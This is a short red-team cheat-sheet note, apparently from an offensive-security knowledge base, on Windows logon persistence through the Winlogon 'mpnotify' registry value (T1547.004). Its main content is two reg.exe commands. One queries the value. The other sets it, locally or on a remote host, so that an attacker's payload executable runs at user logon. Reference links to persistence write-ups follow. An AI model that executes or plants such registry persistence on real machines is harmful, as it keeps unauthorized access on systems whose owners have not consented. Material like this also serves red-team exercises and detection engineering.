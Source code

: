 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - maintaining-access
  - persistence
  - living-off-the-land
  - T1547-004
  - windows
---
```

# WinLogon

## 01 - Command Prompt

```
C:\> reg.exe query "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v mpnotify
```

```
C:\> reg.exe add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /t REG_SZ /v mpnotify /d "C:\path\to\payload.exe" /f
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Malware Development/Helpers/Persistence/Windows/Autostart Locations]]

### Persistence Info

- [Persistence Info: MPNotify](https://persistence-info.github.io/Data/mpnotify.html)

### Red Team Notes

- [Red Team Notes: Windows Logon Helper](https://www.ired.team/offensive-security/persistence/windows-logon-helper)